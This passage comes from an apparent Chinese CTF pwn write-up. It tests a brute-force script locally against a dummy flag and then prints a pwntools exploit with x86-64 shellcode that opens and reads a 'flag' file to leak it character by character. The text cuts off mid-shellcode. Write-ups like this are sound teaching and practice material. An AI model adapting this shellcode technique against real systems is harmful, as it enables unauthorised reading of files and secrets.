 然后就是在本地测试一下脚本是否正常了  
我在本地 flag 文件夹里写了个 flag：flag\_is\_not\_here，然后开始爆破

[![](assets/1703640353-c72b11ab8726de7850713a656182ebbd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225191813-4b5967f8-a317-1.png)  
可以看到爆出来了，但是写的长度太长了，会继续往下爆破

### exp

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
#context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

def exp(dis,char):
    p.recvuntil("Welcome to silent execution-box.\n")
    shellcode = asm('''
        mov r12,0x67616c66
        push r12
        mov rdi,rsp
        xor esi,esi
        xor edx,edx
        mov al,2
        syscall
        mov rdi,rax
        mov rsi,0x10700
        mov dl,0x40
        xor rax,rax
```